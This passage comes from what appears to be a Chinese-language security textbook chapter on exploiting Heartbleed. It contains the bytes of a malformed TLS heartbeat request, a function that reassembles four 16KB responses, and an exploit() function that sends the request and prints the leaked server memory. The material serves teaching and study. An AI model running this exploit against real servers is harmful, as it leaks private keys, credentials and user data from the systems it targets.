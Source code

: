 *图 9-4：一个恶意心跳包*

我们的格式错误的请求消息如下所示：

```
heartbeat = (

     0x18,        # Type: Heartbeat Message

     0x03, 0x03,  # TLS Version : Version 1.2

  ➊ 0x00, 0x03,  # Packet Length : 3 bytes

     0x01,        # Heartbeat Request

  ➋ 0x00, 0x40   # Payload length 64KB

                 )
```

注意包长度 ➊（表示包中剩余字节）和有效负载长度 ➋（64KB）之间的差异。包长度不应该包括有效负载长度吗？怎么可能有效负载长度大于整个包的大小呢？

这是请求的“格式错误”部分。请记住从图 9-1 中看到的，我们指定了 64KB 的负载长度，这是我们可以在分配的 16 位中指定的最大值，但实际的负载大小为 0。

#### ***读取泄露的内存内容***

如前所述，心跳数据包的最大长度为 16KB。这意味着服务器响应的 64KB 内存将被分割成四个 16KB 的数据包。让我们编写一个函数，从套接字读取所有四个数据包，并将它们的负载合并成一个单一的 64KB 负载：

```
def readServerHeartBeat(socket):

    payload  = b''

    for i in range(0, 4):

     ➊ type, version, packet_payload, msgType =  readPacket(socket)

     ➋ payload += packet_payload

    return (type, version,  payload, msgType)
```

我们调用`readPacket()`函数四次，以读取我们预期从易受攻击的服务器获得的四个心跳响应 ➊。然后，我们将四个响应的所有负载合并成一个单一的负载 ➋。

#### ***编写利用函数***

以下代码片段实现了`exploit()`函数，该函数将发送格式错误的心跳请求并读取四个心跳响应数据包：

```
def exploit(socket):
➊ HEART_BEAT_RESPONSE = 21 #0x15

   payload = b''
➋ socket.send(array.array('B', heartbeat))

   print("Sent Heartbeat ")
➌ type, version, payload, msgType = readServerHeartBeat(socket)

   if type is not None:

      if msgType ==  HEART_BEAT_RESPONSE :

        ➍ print(payload.decode('utf-8'))

    else:

        print("No heartbeat received")

```